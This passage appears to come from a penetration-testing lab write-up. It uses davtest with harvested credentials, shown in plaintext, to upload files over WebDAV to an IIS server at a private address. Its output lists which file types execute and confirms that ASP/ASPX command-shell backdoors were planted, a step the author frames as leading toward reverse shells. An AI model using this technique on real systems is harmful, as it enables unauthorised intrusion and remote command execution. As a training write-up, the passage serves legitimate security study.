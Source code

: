 ### Davtest -> RCE

Since we have credentials, we can try to place files on the website such as ASPX reverse shells (since this is running IIS). We can test these credentials with `davtest`:

```
$ davtest -auth fmcsorley:CrabSharkJellyfish192 -sendbd auto -url http://192.168.197.122
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://192.168.197.122
********************************************************
NOTE    Random string for this session: YuAxJmlk
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://192.168.197.122/DavTestDir_YuAxJmlk
********************************************************
 Sending test files
PUT     jsp     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.jsp
PUT     pl      SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.pl
PUT     asp     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.asp
PUT     shtml   SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.shtml
PUT     php     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.php
PUT     cfm     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.cfm
PUT     txt     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.txt
PUT     jhtml   SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.jhtml
PUT     cgi     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.cgi
PUT     html    SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.html
PUT     aspx    SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.aspx
********************************************************
 Checking for test file execution
EXEC    jsp     FAIL
EXEC    pl      FAIL
EXEC    asp     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.asp
EXEC    shtml   FAIL
EXEC    php     FAIL
EXEC    cfm     FAIL
EXEC    txt     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.txt
EXEC    jhtml   FAIL
EXEC    cgi     FAIL
EXEC    html    SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.html
EXEC    aspx    SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.aspx
********************************************************
 Sending backdoors
PUT Shell:      asp     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_aspx_cmd.aspx
PUT Shell:      asp     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_asp_cmd.asp
** ERROR: Unable to find a backdoor for txt **
** ERROR: Unable to find a backdoor for html **
PUT Shell:      aspx    SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_aspx_cmd.aspx

********************************************************
/usr/bin/davtest Summary:
Created: http://192.168.197.122/DavTestDir_YuAxJmlk
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.jsp
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.pl
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.asp
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.shtml
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.php
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.cfm
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.txt
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.jhtml
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.cgi
```
